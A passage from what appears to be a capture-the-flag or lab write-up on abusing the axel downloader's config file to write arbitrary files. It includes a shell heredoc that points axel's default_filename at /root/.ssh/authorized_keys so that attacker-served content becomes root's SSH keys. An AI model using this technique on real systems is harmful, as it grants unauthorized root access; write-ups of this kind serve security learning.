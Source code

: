But, if we run same command again axel creates new file with `.0` suffix, same name file already exists

![](screenshots/axelrc-new-file.png)

With that we have some limitations where we can not append or overwrite existing file but we can still create arbitrary file in the filesystem.

i already write `/root/.ssh/authorized_keys` with wget let see what axel do with it.
```bash
cat <<EOF > .axelrc
# When downloading a HTTP directory/index page, (like http://localhost/~me/)
# what local filename do we have to store it in?
#
default_filename = /root/.ssh/authorized_keys
EOF
```

* Before downloading file we need to put content that we wanted to download form our web server in `index.html` file.
